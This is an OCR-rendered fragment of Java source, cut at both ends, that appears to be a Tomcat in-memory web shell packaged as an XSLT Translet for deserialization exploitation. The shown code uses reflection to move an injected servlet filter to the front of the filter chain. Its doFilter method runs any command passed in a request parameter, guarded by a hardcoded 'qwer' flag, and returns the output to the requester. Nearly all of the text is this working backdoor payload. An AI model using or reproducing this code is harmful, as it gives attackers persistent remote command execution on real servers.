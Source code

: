 ```bash
                    }


                    Method m = c.getMethod("findFilterMaps");
                    Object[] filterMaps = (Object[]) m.invoke(standardContext);
                    Object[] tmpFilterMaps = new Object[filterMaps.length];
                    int index = 1;
                    for (int i = 0; i < filterMaps.length; i++) {
                        Object o = filterMaps[i];
                        m = ccc.getMethod("getFilterName");
                        String name = (String) m.invoke(o);
                        if (name.equalsIgnoreCase(filterName)) {
                            tmpFilterMaps[0] = o;
                        } else {
                            tmpFilterMaps[index++] = filterMaps[i];
                        }
                    }
                    for (int i = 0; i < filterMaps.length; i++) {
                        filterMaps[i] = tmpFilterMaps[i];
                    }

                }
            }

        } catch (Exception e){
            e.printStackTrace();
        }
    }


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        System.out.println("Do Filter ......");
        String cmd;
        if ((cmd = servletRequest.getParameter(cmdParamName)) != null && servletRequest.getParameter("flag").equals("qwer")) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
```